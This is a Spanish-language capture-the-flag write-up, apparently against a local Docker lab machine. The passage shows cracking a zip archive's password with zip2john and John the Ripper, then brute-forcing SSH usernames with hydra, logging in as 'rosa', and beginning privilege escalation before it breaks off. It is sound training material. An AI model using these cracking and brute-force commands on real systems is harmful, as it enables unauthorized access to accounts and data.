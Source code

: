 ```css
Enter password (will not be echoed):
ERROR: Wrong password : secreto.txt
                  
Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1
```
pero me solicita password para poder descomprimir si que intentare crackearlo

```ruby
zip2john seguro.zip > ziphash
```
```ruby
john --wordlist=/usr/share/wordlists/rockyou.txt ziphash
```
```css
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (seguro.zip/secreto.txt)     
1g 0:00:00:00 DONE (2024-11-06 09:40) 50.00g/s 819200p/s 819200c/s 819200C/s 123456..cowgirlup
Use the "--show" option to display all of the cracked passwords reliably
```
por lo que ahora si podre descomprimir el archivo `seguro.zip`

```ruby
7z x seguro.zip
```
le paso la password y obtengo un archivo `secreto.txt` que al leerlo solo contiene la frase `aprendemos` que de momento solo me queda pensar es una password
debido a la tecnica que usaron para ocultarlo y el mismo nombre del archivo... asi que primero pruebo con un ataque de diccionario contra el servicio ssh

```ruby
hydra -L /user/share/wordlist/seclists/Usernames/xato-net-10-million-usernames.txt -p aprendemos ssh://172.17.0.2
```

![Screenshot From 2024-11-06 10-27-32](https://github.com/user-attachments/assets/f17f2d08-21a1-459d-ab06-cf1a869c967a)

con paciencia se consigue el user, ahora accedo al sistema

```ruby
ssh rosa@172.17.0.2
```

# Escalada de privilegios

### rosa

chequeando el directorio del user rosa, me consigo con el siguiente script
